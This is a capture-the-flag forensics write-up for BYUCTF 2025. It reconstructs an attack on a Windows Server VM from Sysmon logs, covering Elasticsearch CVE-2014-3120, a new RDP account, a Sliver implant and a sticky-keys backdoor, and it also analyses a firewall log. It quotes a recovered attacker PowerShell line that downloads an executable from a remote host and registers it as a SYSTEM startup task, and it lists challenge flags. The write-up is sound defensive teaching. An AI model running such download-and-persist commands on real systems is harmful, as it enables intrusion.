



## Wimdows
Wimdows was the biggest Forensics challenge in BYUCTF-2025. I'm giving it its own section because it has many parts and teaches important skills. While this scenario is unlikely in real life, it still provides educational value. I'll do a more in-depth analysis for this challenge than the others.

This challenge involves analyzing a virtual machine image (~10GB) containing a Windows system with various forensic artifacts. Due to the large file size, I can't include the VM image here.
### Reconnaissance
Firing up the VM revealed a `Windows Server 2008 R2` installation with multiple accounts. The provided credentials were `vagrant/vagrant`.



After logging in, I conducted a thorough reconnaissance of the Windows system by exploring the file system, examining user folders, checking running services, and analyzing active processes to understand the environment.

To capture all running processes, I executed the following PowerShell command:
```powershell
Get-Process | Out-File -FilePath processes.txt; notepad processes.txt
```

The output revealed numerous processes running on the system:

```bash
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
     28       5     2768       3560       0.02   1476   0 cmd 
     29       5     2712       3296       0.00   3752   0 cmd 
     35       5     1628       3284       0.02   1320   0 conhost 
     33       5     1556       3196       0.02   1396   0 conhost
     35       5     1592       3252       0.00   1492   0 conhost 
     35       5     1608       3284       0.00   1656   0 conhost 
     37       5     1624       3324       0.00   1928   0 conhost 
     33       5     1596       3244       0.00   2176   0 conhost 
     33       5     1596       3272       0.02   2360   0 conhost 
     33       5     1596       3272       0.00   2512   0 conhost 
     32       4     1516       3168       0.00   2560   0 conhost  
     35       5     2524       4684       0.02   5764   1 conhost  
   1331      16     2944       5020       0.34    372   0 csrss     
    190      11     9264       9040       0.83    420   1 csrss    
    106       7     8260       7112       0.02   2128   0 cygrunsrv 
     98      12     2520       4032       0.02   2008   0 dcnotificationserver 
     47       7     1396       3752       0.00   2352   0 dcrotatelogs 
     47       7     1392       3752       0.00   2504   0 dcrotatelogs 
    127      21     5504      11304       0.55   1040   0 dcserverhttpd 
    538      92    16528      17096       0.50   2392   0 dcserverhttpd  
    102      10     2572       6140       0.02   5232   1 DesktopCentral  
    215      16     5000      11992       0.23   4940   0 dllhost       
    170      25    25192      16096       0.03   1336   0 domain1Service  
   1106     177   406376     196020       7.08   1388   0 elasticsearch-service-x64   
    650      43    22828      42072       0.72    508   1 explorer 
    134      19     8452      13744       0.05   3388   0 httpd  
    177      33    10100      14132       0.03   3732   0 httpd  
      0       0        0         24                 0   0 Idle  
    301      21   184160      64112       2.22   1564   0 java   
    660      21   414312      43452       0.91   1596   0 java  
   1105      54   411084     291884      14.42   2528   0 java  
    277      20   108012      23808       0.31   4040   0 java   
    798      58   414748     260320      14.70   4400   0 java  
    409      51    61484      51564       4.16   1452   0 jenkins  
    278      43    64424      50596       1.89   1912   0 jmx   
    637      20     8060      14272       0.61    524   0 lsass  
    210      11     3584       6440       0.05    532   0 lsm  
    163      18     4020       8500       0.05   5032   0 msdtc 
    553      14   184280      44176       0.14   3420   0 mysqld  
    384      28    59700      58796       0.36   5740   1 powershell  
    298      14     5992       9804       0.50    500   0 services 
     36       1      712       1384       0.34    284   0 smss  
    172      15     4524       7740       0.11   2264   0 snmp  
    310      20     7160      11576       0.02   1160   0 spoolsv  
    167       8     2996       8752       1.47   4600   0 sppsvc  
    105      10     7272       6820       0.03   2192   0 sshd  
    306      33     9300      11332       0.06    404   0 svchost 
    383      14     5072      10464       0.31    628   0 svchost 
    309      16     4300       8304       0.13    712   0 svchost
    319      16    12016      13492       0.33    808   0 svchost
   1115      47    22612      37512       1.66    852   0 svchost
    533      20     7336      13440       1.27    920   0 svchost
    226      14     4540       9784       0.02    964   0 svchost 
    421      32    14724      15708       0.17   1004   0 svchost 
    111      10     5272       9740       0.06   1208   0 svchost 
    152      16     5728       9836       0.03   1428   0 svchost  
     57       4     1496       3264       0.00   2236   0 svchost 
    163      14     7620      10916       0.06   3480   0 svchost
    253      13     3328       7312       0.02   4576   0 svchost 
    119      13     2420       5912       0.00   4684   0 svchost
     77       6     2224       4992       0.02   4976   0 svchost
    275      17     7892      13668       1.16   2296   0 Sysmon64 
    400       0      108        300      18.92      4   0 System 
    113       8     2680       5796       0.03    644   0 taskeng
     97       7     2564       5716       0.00   5624   1 taskeng 
    105       8     2748       4600       0.00   5356   1 taskhost 
     81       7     1936       5340       0.00   4132   0 unsecapp 
     58       9    20572       4268       0.02   1112   0 update
     98      12     3500       9824       0.09   2436   0 VGAuthService
    284      23    10752      18024       0.17   2600   0 vmtoolsd 
    178      19     8248      15620       0.16   5820   1 vmtoolsd 
     93      10     2060       4860       0.09    412   0 wininit 
    109       7     2532       5772       0.05    476   1 winlogon 
     51       6     1584       3912       0.03   3508   0 wlms 
    230      15     7628      13124       0.47   4896   0 WmiPrvSE 
    267      17    22520      27468       1.61   5376   0 WmiPrvSE 
    277      18     4328       8208       0.06   1236   0 wrapper
```

Notable observations from the process list:
- Multiple instances of `java` with high memory usage
- Presence of `elasticsearch-service-x64`, `jenkins`, and `jmx` services
- Several web servers including `httpd`
- `Sysmon64` running, which could provide valuable event logs
- High number of `svchost` instances typical for Windows servers

Next, I enumerated the running services to gain deeper insight into the system's functionality:

```powershell
Get-Service | Where-Object { $_.Status -eq 'Running' } | Out-File running_services.txt; notepad running_services.txt
```

The output confirmed the presence of several interesting services:

```text
Status   Name               DisplayName                           
------   ----               -----------                           
Running  AppHostSvc         Application Host Helper Service       
Running  BFE                Base Filtering Engine                 
Running  BITS               Background Intelligent Transfer Ser...
Running  CertPropSvc        Certificate Propagation               
Running  COMSysApp          COM+ System Application               
Running  CryptSvc           Cryptographic Services                
Running  DcomLaunch         DCOM Server Process Launcher          
Running  DesktopCentralS... ManageEngine Desktop Central Server   
Running  Dhcp               DHCP Client                           
Running  Dnscache           DNS Client                            
Running  domain1            domain1 GlassFish Server              
Running  DPS                Diagnostic Policy Service             
Running  elasticsearch-s... Elasticsearch 1.1.1 (elasticsearch-...
Running  eventlog           Windows Event Log                     
Running  EventSystem        COM+ Event System                     
Running  fdPHost            Function Discovery Provider Host      
Running  FontCache          Windows Font Cache Service            
Running  ftpsvc             Microsoft FTP Service                 
Running  gpsvc              Group Policy Client                   
Running  IKEEXT             IKE and AuthIP IPsec Keying Modules   
Running  iphlpsvc           IP Helper                             
Running  jenkins            jenkins                               
Running  jmx                jmx                                   
Running  LanmanServer       Server                                
Running  LanmanWorkstation  Workstation                           
Running  lmhosts            TCP/IP NetBIOS Helper                 
Running  MEDC Server Com... MEDC Server Component - Notificatio...
Running  MEDCServerCompo... MEDC Server Component - Apache        
Running  MpsSvc             Windows Firewall                      
Running  MSDTC              Distributed Transaction Coordinator   
Running  Netman             Network Connections                   
Running  netprofm           Network List Service                  
Running  NlaSvc             Network Location Awareness            
Running  nsi                Network Store Interface Service       
Running  OpenSSHd           OpenSSH Server                        
Running  PlugPlay           Plug and Play                         
Running  PolicyAgent        IPsec Policy Agent                    
Running  Power              Power                                 
Running  ProfSvc            User Profile Service                  
Running  RemoteRegistry     Remote Registry                       
Running  RpcEptMapper       RPC Endpoint Mapper                   
Running  RpcSs              Remote Procedure Call (RPC)           
Running  SamSs              Security Accounts Manager             
Running  Schedule           Task Scheduler                        
Running  SENS               System Event Notification Service     
Running  SessionEnv         Remote Desktop Configuration          
Running  ShellHWDetection   Shell Hardware Detection              
Running  SNMP               SNMP Service                          
Running  Spooler            Print Spooler                         
Running  sppsvc             Software Protection                   
Running  Sysmon64           Sysmon64                              
Running  TermService        Remote Desktop Services               
Running  TrkWks             Distributed Link Tracking Client      
Running  UmRdpService       Remote Desktop Services UserMode Po...
Running  UxSms              Desktop Window Manager Session Manager
Running  VGAuthService      VMware Alias Manager and Ticket Ser...
Running  VMTools            VMware Tools                          
Running  W3SVC              World Wide Web Publishing Service     
Running  wampapache         wampapache                            
Running  wampmysqld         wampmysqld                            
Running  WAS                Windows Process Activation Service    
Running  WdiSystemHost      Diagnostic System Host                
Running  WinHttpAutoProx... WinHTTP Web Proxy Auto-Discovery Se...
Running  Winmgmt            Windows Management Instrumentation    
Running  WinRM              Windows Remote Management (WS-Manag...
Running  WLMS               Windows Licensing Monitoring Service  
Running  wuauserv           Windows Update                        
```

Several security-relevant services caught my attention:
- `RemoteRegistry` service (typically disabled for security reasons)
- Multiple web servers (`wampapache`, `W3SVC`)
- Enterprise applications (`jenkins`, `elasticsearch`, `GlassFish`)
- Management tools (`DesktopCentralServer`, `SNMP`)

To further investigate potential artifacts, I examined the `C:\Windows\Temp` directory, which often contains valuable forensic evidence:

```powershell
PS C:\Windows\Temp> Get-ChildItem -Path "C:\Windows\Temp" -Recurse -Force | Out-File "$env:USERPROFILE\Desktop\temp_list.txt"

 Directory: C:\Windows\Temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         8/5/2022   2:50 PM                chocolatey                                                            
d-----         8/5/2022   2:03 PM                Crashpad                                                              
d-----         8/5/2022   3:06 PM                hsperfdata_sshd_server                                                
d-----        5/22/2025  11:16 PM                hsperfdata_VAGRANT-2008R2$                                            
d-----         8/5/2022   3:05 PM                Low                                                                   
d-----         8/5/2022   3:06 PM                virtualbox                                                            
d-----        5/22/2025  11:16 PM                VM3D                                                                  
d-----        5/17/2025   6:57 PM                vmware-SYSTEM                                                         
d-----         8/5/2022   3:05 PM                {699DC2F0-7B7E-431D-8D4E-84E5E3E5DD96}                                
-a----         8/5/2022   3:06 PM       18487658 axis2-1.6.0-war.zip                                                   
-a----        5/15/2025   6:10 PM          25445 chrome_installer.log                                                  
-a----         8/5/2022   2:49 PM         364552 dd_vcredistMSI233C.txt                                                
-a----         8/5/2022   2:50 PM         374078 dd_vcredistMSI235A.txt                                                
-a----         8/5/2022   2:49 PM          11626 dd_vcredistUI233C.txt                                                 
-a----         8/5/2022   2:50 PM          11546 dd_vcredistUI235A.txt                                                 
-a----         8/5/2022   1:42 PM              0 DMI6C94.tmp                                                           
-a----        5/17/2025  11:31 AM              0 DMI9D49.tmp                                                           
-a----         8/5/2022   1:44 PM           4572 dotnet-install.log                                                    
-a----         8/5/2022   3:06 PM       22608755 elasticsearch-1.1.1.zip                                               
-a----         8/5/2022   2:48 PM      102178360 glassfish4.zip                                                        
-a----        5/15/2025   6:00 PM              0 ib2952.tmp                                                            
-a----        5/15/2025   6:00 PM              0 ib2953.tmp                                                            
-a----        5/15/2025   6:00 PM              0 ib2954.tmp                                                            
-a----        5/15/2025   6:00 PM              0 ib2955.tmp                                                            
-a----        5/15/2025   6:00 PM              0 ib2994.tmp                                                            
-a----        5/17/2025   3:43 PM              0 ib3613.tmp                                                            
-a----        5/17/2025   3:43 PM              0 ib3614.tmp                                                            
-a----        5/17/2025   3:43 PM              0 ib3615.tmp                                                            
-a----        5/17/2025   3:43 PM              0 ib3626.tmp                                                            
-a----        5/17/2025   3:43 PM              0 ib3665.tmp                                                            
-a----        5/22/2025  11:16 PM              0 ib3836.tmp                                                            
-a----        5/22/2025  11:16 PM              0 ib3837.tmp                                                            
-a----        5/22/2025  11:16 PM              0 ib3838.tmp                                                            
-a----        5/22/2025  11:16 PM              0 ib3849.tmp                                                            
-a----        5/22/2025  11:16 PM              0 ib3888.tmp                                                            
-a----        5/17/2025   5:15 PM              0 ib3AD6.tmp                                                            
-a----        5/17/2025   5:15 PM              0 ib3AD7.tmp                                                            
-a----        5/17/2025   5:15 PM              0 ib3AD8.tmp                                                            
-a----        5/17/2025   5:15 PM              0 ib3AE9.tmp                                                            
-a----        5/17/2025   5:15 PM              0 ib3B28.tmp                                                            
-a----        5/17/2025  11:31 AM              0 ib662C.tmp                                                            
-a----        5/17/2025  11:31 AM              0 ib662D.tmp                                                            
-a----        5/17/2025  11:31 AM              0 ib662E.tmp                                                            
-a----        5/17/2025  11:31 AM              0 ib663E.tmp                                                            
-a----        5/17/2025  11:31 AM              0 ib667E.tmp                                                            
-a----         8/5/2022   2:57 PM      134169928 ManageEngine_DesktopCentral.exe                                       
-a----         8/5/2022   2:50 PM       68988401 openjdk-1.6.0-unofficial-b27-windows-amd64.zip                        
-a----         8/5/2022   1:44 PM       10225386 openssh.exe                                                           
-a----         8/5/2022   1:44 PM             99 PATH                                                                  
-a----        5/22/2025  11:17 PM            102 silconfig.log                                                         
-a----         8/5/2022   2:24 PM         131072 TS_1E94.tmp                                                           
-a----         8/5/2022   2:24 PM         196608 TS_1F60.tmp                                                           
-a----         8/5/2022   2:30 PM         393216 TS_2639.tmp                                                           
-a----         8/5/2022   2:30 PM         262144 TS_26B7.tmp                                                           
-a----         8/5/2022   2:23 PM         327680 TS_2D2E.tmp                                                           
-a----         8/5/2022   2:23 PM         393216 TS_2DBC.tmp                                                           
-a----         8/5/2022   1:50 PM       63803392 VBoxGuestAdditions.iso                                                
-a----        5/22/2025  11:16 PM          22171 vmware-vmsvc-SYSTEM.log                                               
-a----        5/22/2025  11:16 PM           3063 vmware-vmtoolsd-SYSTEM.log                                            
-a----        5/22/2025  11:19 PM           4082 vmware-vmtoolsd-vagrant.log                                           
-a----        5/22/2025  11:19 PM          16753 vmware-vmusr-vagrant.log                                              
-a----        5/22/2025  11:16 PM           2510 vmware-vmvss-SYSTEM.log                                               
-a----         8/5/2022   2:42 PM       26024903 wampserver2.2.d-x64.exe                                               
-a----         8/5/2022   1:44 PM           4880 wmf-install.log                                                       
-a----         8/5/2022   2:50 PM           1736 _env.cmd                                                              
-a----         8/5/2022   3:05 PM          16384 ~DF0576503D8268117D.TMP                                               
-a----         8/5/2022   3:05 PM          16384 ~DF64A0C29C2A02D94B.TMP                                               
-a----         8/5/2022   3:05 PM          16384 ~DF9E950B5174EDB2B5.TMP 
```

The temp directory revealed several significant findings:
- Installation packages for various enterprise applications (Elasticsearch, GlassFish, WAMP)
- Evidence of ManageEngine DesktopCentral software
- VM-related files confirming this is a virtualized environment
- Various temporary files created during recent activity (May 2025)

### Wimdows 1


In the running processes, I spotted `Sysmon` which could aid me in solving these problems.

First, I needed to export the logs from the VM to my computer using `VM Tools`. I then used `EvtxECmd` to convert the logs to `.csv` format, allowing me to open them in `Timeline Explorer` for easier investigation and analysis.

```powershell
danhq@hide-and-seek E:\....\EvtxeCmd .\EvtxECmd.exe -f .\Microsoft-Windows-Sysmon%4Operational.evtx --csv . --csvf Sysmon.csv
EvtxECmd version 1.5.2.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/evtx

Command line: -f .\Microsoft-Windows-Sysmon%4Operational.evtx --csv . --csvf Sysmon.csv

Warning: Administrator privileges not found!

CSV output will be saved to .\Sysmon.csv

Maps loaded: 453

Processing E:\CTF\Tools\EvtxeCmd\Microsoft-Windows-Sysmon%4Operational.evtx...
Chunk count: 68, Iterating records...

Event log details
Flags: IsDirty
Chunk count: 68
Stored/Calculated CRC: 6A0FADAA/6A0FADAA
Earliest timestamp: 2025-05-16 01:22:55.2258750
Latest timestamp:   2025-05-23 06:29:44.2773437
Total event log records found: 3,294

Records included: 3,294 Errors: 0 Events dropped: 0

Metrics (including dropped events)
Event ID        Count
1               1,744
2               16
4               15
5               4
6               28
8               233
11              580
12              77
13              596
16              1

Processed 1 file in 2.7522 seconds
```
Upon opening the logs in `Timeline Explorer`, I spotted these suspicious entries:


There are multiple PowerShell commands executed which spawned from `C:\Program Files\elasticsearch-1.1.1\bin\elasticsearch-service-x64.exe` and are encoded in base64.


From this evidence, I concluded that the perpetrator exploited a vulnerability in Elasticsearch to gain shell access on this computer. I had previously identified that the version of Elasticsearch running was `1.1.1`. 

So I search for `Elasticsearch 1.1.1 CVE RCE` which return


Therefore, the answer to `Wimdows 1` is `CVE-2014-3120`

### Wimdows 2


From the same Sysmon log, I discovered additional encoded PowerShell commands executed after the perpetrator gained shell access. Upon decoding these commands, I was able to extract the second flag.


So the answer for `Wimdows 2` is `byuctf{n0w_th4t5_s0m3_5u5_l00k1ng_p0w3rsh3ll_139123}`

### Wimdows 3


In the same log, I spotted these entries


The logs clearly show that a new user account named `phasma` was created and subsequently added to the `Remote Desktop Users` group. 

Therefore, the answer to `Wimdows 3` is `Remote Desktop Users`

### Wimdows 4


Continue scavenging the Sysmon log for encoded base64 powershell command, I found this


```powershell
$BINARY='C:\Windows\System32\update.exe' ; $ProgressPreference = 'SilentlyContinue' ; Invoke-WebRequest -Uri "http://192.168.1.107:8000/update.exe" -OutFile $BINARY ; schtasks /create /tn "updates" /tr $BINARY /ru 'SYSTEM' /sc onstart /rl highest ; schtasks /run /tn "updates
```
This revealed that the attacker downloaded a malicious executable and replaced the legitimate `C:\Windows\System32\update.exe` with this malware while maintaining the same filename to avoid detection.

I extracted the `update.exe` and uploaded it to `VirusTotal` and this is the result. 


This is definitely malware! Examining its behavior, we can see the IP address it's trying to connect to:


And in Community we got the C2 framework



So the answer to `Wimdows 4` is `Sliver_192.168.1.224`

### Wimdows 5


Still using the same Sysmon log I see this entries


Thus `Wimdows 5` answer is `byuctf{00p5_4ll_b4ckd00r5_139874}`


### Summary

Based on the forensic analysis of the Sysmon logs and system artifacts, I've reconstructed the complete attack flow with corresponding MITRE ATT&CK techniques:

1. **Elasticsearch Vulnerability Exploitation** [T1190, T1133]
   - The attacker exploited a critical vulnerability (CVE-2014-3120) in Elasticsearch 1.1.1
   - Commands were executed directly through the Elasticsearch service process
   - Elasticsearch was running with NT AUTHORITY\SYSTEM privileges, giving the attacker immediate system-level access
   - Evidence: Sysmon logs showing command execution from `elasticsearch-service-x64.exe`

2. **PowerShell Command Execution** [T1059.001, T1027]
   - Base64-encoded PowerShell commands were executed to evade detection
   - Complex malicious commands were run while bypassing security controls
   - Commands executed with NT AUTHORITY\SYSTEM privileges inherited from the Elasticsearch service
   - Evidence: Multiple encoded PowerShell execution events in Sysmon logs

3. **System Information Gathering** [T1082, T1087]
   - The attacker gathered information about system configuration and user accounts
   - This reconnaissance phase helped them plan further attack steps
   - Evidence: Sequential nature of commands showing systematic enumeration

4. **User Account Creation** [T1136.001, T1078.003]
   - Created new user account "phasma" for persistent access
   - Added the account to "Remote Desktop Users" group for remote access capability
   - Evidence: Explicit account creation and group modification events in logs

5. **Scheduled Task Creation** [T1053.005, T1543.003]
   - Created scheduled task "updates" to run at system startup
   - Explicitly configured to execute with NT AUTHORITY\SYSTEM privileges for maximum access
   - Task creation was performed with elevated privileges inherited from the Elasticsearch service
   - Evidence: `schtasks /create /tn "updates" /tr $BINARY /ru 'SYSTEM' /sc onstart /rl highest`

6. **Masquerading as System File** [T1036.003, T1036.005]
   - Downloaded and replaced legitimate `C:\Windows\System32\update.exe` with malware
   - Download operation was performed with NT AUTHORITY\SYSTEM privileges, allowing modification of protected system files
   - Maintained same filename and location to avoid detection
   - Evidence: PowerShell command showing file replacement: `Invoke-WebRequest -Uri "http://192.168.1.107:8000/update.exe" -OutFile $BINARY`

7. **Sliver C2 Framework** [T1105, T1071]
   - Malicious update.exe was a Sliver C2 framework implant
   - Established communication with C2 server at 192.168.1.224
   - Evidence: VirusTotal analysis confirming C2 communication

8. **SYSTEM Level Execution** [T1548, T1134]
   - Scheduled task ran malware with NT AUTHORITY\SYSTEM privileges
   - Highest possible local permissions on the Windows system
   - The entire attack chain maintained SYSTEM privileges from initial access through execution
   - Evidence: `/ru 'SYSTEM'` parameter in scheduled task creation and `/rl highest` for highest privilege level

9. **Remote Desktop Protocol** [T1021.001]
   - Configured RDP access via "Remote Desktop Users" group membership
   - Created potential for movement to other systems in the network
   - Evidence: Specific group membership modification

10. **Backdoor Establishment** [T1505]
    - Implemented a persistent backdoor for future access
    - Replaced system accessibility executables with command shell (sticky keys backdoor technique)
    - Revealed by flag `byuctf{00p5_4ll_b4ckd00r5_139874}`
    - Evidence: Backdoor commands and file replacements visible in Sysmon logs

## Forensics 
### Are You Looking Me Up?
#### Description 

_Are You Looking Me Up?_

[--> Files Here <--](https://github.com/z3moo/ctf/blob/main/BYUCTF_2025/Are%20You%20Looking%20Me%20Up/logs.txt)

#### Thought Process
Let me examine a few lines from the log file.

```bash
┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/BYUCTF2025/for/Are You Looking Me Up]
└─$ cat logs.txt | head -n 20
2025-05-06T14:49:32+00:00 155,,,c0dbc3f4f934c1cb95f41a1f3d23a189,vtnet0,match,pass,in,4,0x0,,128,23413,0,none,17,udp,72,172.16.0.10,172.16.0.1,53829,53,52
2025-05-06T14:49:32+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,128,41412,0,none,17,udp,72,172.16.0.10,8.8.8.8,53829,53,52
2025-05-06T14:49:32+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,128,9674,0,DF,6,tcp,52,172.16.0.10,4.149.227.78,65308,443,0,S,3208345317,,64240,,mss;nop;wscale;nop;nop;sackOK
2025-05-06T14:49:32+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,128,63011,0,DF,6,tcp,52,172.16.0.10,52.183.205.142,65309,443,0,S,2199077471,,64240,,mss;nop;wscale;nop;nop;sackOK
2025-05-06T14:49:32+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,128,21701,0,DF,6,tcp,52,172.16.0.10,13.95.31.18,65310,443,0,S,3089797986,,64240,,mss;nop;wscale;nop;nop;sackOK
2025-05-06T14:49:32+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,128,52240,0,DF,6,tcp,52,172.16.0.10,13.69.239.74,65311,443,0,S,1512276322,,64240,,mss;nop;wscale;nop;nop;sackOK
2025-05-06T14:49:33+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,128,63030,0,DF,6,tcp,52,172.16.0.10,52.183.205.142,65312,443,0,S,710496243,,64240,,mss;nop;wscale;nop;nop;sackOK
2025-05-06T14:49:33+00:00 155,,,c0dbc3f4f934c1cb95f41a1f3d23a189,vtnet0,match,pass,in,4,0x0,,128,23414,0,none,17,udp,80,172.16.0.10,172.16.0.1,53269,53,60
2025-05-06T14:49:33+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,128,40646,0,DF,6,tcp,52,172.16.0.10,209.209.4.232,65313,80,0,S,71362922,,64240,,mss;nop;wscale;nop;nop;sackOK
2025-05-06T14:49:33+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,128,21719,0,DF,6,tcp,52,172.16.0.10,13.95.31.18,65314,443,0,S,648020988,,64240,,mss;nop;wscale;nop;nop;sackOK
2025-05-06T14:49:34+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,128,52254,0,DF,6,tcp,52,172.16.0.10,13.69.239.74,65315,443,0,S,2912397937,,64240,,mss;nop;wscale;nop;nop;sackOK
2025-05-06T14:49:34+00:00 21,,,02f4bab031b57d1e30553ce08e0ec131,vtnet0,match,block,in,4,0x0,,64,22178,0,DF,17,udp,268,192.168.1.20,255.255.255.255,50924,10001,248
2025-05-06T14:49:35+00:00 144,,,4fecac63b6446ce80c3df5c947ca3aa1,vtnet0,match,pass,in,4,0x0,,64,16715,0,DF,6,tcp,60,172.16.96.57,216.239.32.106,49153,53,0,S,1179500,,29200,,mss;sackOK;TS;nop;wscale
2025-05-06T14:49:36+00:00 155,,,c0dbc3f4f934c1cb95f41a1f3d23a189,vtnet0,match,pass,in,4,0x0,,64,22309,0,DF,1,icmp,84,172.16.0.70,172.16.0.1,datalength=64
2025-05-06T14:49:36+00:00 146,,,5c6fe00c82fd64877509b3fc99e38d2c,vtnet0,match,pass,in,4,0x0,,64,60244,0,DF,17,udp,76,172.16.96.10,23.94.221.138,42556,123,56
2025-05-06T14:49:37+00:00 155,,,c0dbc3f4f934c1cb95f41a1f3d23a189,vtnet0,match,pass,in,4,0x0,,64,44534,0,DF,17,udp,56,172.16.0.70,172.16.0.1,39158,53,36
2025-05-06T14:49:39+00:00 155,,,c0dbc3f4f934c1cb95f41a1f3d23a189,vtnet0,match,pass,in,4,0x0,,64,19821,0,DF,6,tcp,64,172.16.0.5,172.16.0.1,51892,53,0,S,1336358162,,64240,,mss;sackOK;TS;nop;wscale;tfo;nop;nop
2025-05-06T14:49:39+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,64,31526,0,DF,6,tcp,60,172.16.0.5,172.67.69.190,38496,443,0,S,1535450510,,64240,,mss;sackOK;TS;nop;wscale
2025-05-06T14:49:39+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,64,53856,0,DF,6,tcp,60,172.16.0.5,172.67.69.190,38512,443,0,S,4087106031,,64240,,mss;sackOK;TS;nop;wscale
2025-05-06T14:49:39+00:00 164,,,75a2b136446ad166a85f3150b40b7d1e,vtnet0,match,pass,in,4,0x0,,64,60169,0,DF,6,tcp,60,172.16.0.5,104.26.10.102,58628,443,0,S,2650452426,,64240,,mss;sackOK;TS;nop;wscale
```
From this log, I can identify which column contains the IP addresses I need to analyze. By determining which IP appears most frequently, I should have my answer.

```bash
┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/BYUCTF2025/for/Are You Looking Me Up]
└─$ cat logs.txt | awk -F',' '$0 ~ /,53,/ {print $20}' | sort | uniq -c | sort -nr
 133444 172.16.0.1
  73490 216.239.32.106
  41183 172.16.96.1
   3614 8.8.8.8
    215 172.16.16.1
    206 172.16.64.1
    130 172.18.0.1
     17 216.239.38.106
     16 216.239.36.106
     15 216.239.34.106
     15 172.16.4.1
      4 199.7.83.42
      4 198.41.0.4
      4 13.107.237.2
      4 13.107.237.1
      3 13.107.238.2
      2 199.180.182.53
      2 192.5.6.30
